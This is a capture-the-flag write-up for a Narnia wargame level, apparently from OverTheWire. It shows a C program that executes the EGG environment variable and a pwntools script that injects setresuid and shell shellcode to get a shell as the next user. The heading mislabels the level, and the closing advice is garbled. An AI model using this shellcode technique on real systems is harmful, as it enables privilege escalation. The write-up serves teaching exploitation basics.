 # Narnia 0

## C File

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

## Approach

Looking at the code we see that first it gets the environment variable `EGG` and makes sure it exists. Then it tries running it

Now what we can do is set `EGG` to a shellcode, a list of assembly instructions that will open up a shell for us

When the binary jumps to our `EGG` it will the run the assembly instructions eventually opening up a shell

## Solution

```python
from pwn import *
context.arch = 'i386'
context.os = 'linux'
s = asm(shellcraft.setresuid() + shellcraft.sh())
p = process("/narnia/narnia1", env={"EGG":s})
p.interactive()
```

We can use the pwntools shellcraft module to make it easy to get a shell

First we need to set the UIDs so the binary doesn't drop priveleges and gives us a shell as narnia2

Then we add in the `sh` shellcode which opens up a shell

Finally we send this to the process as an env-variable and enter interactive mode and open up the password file

## Conclusion

When writing C programs don't call unsafe functions as they can be shellcode
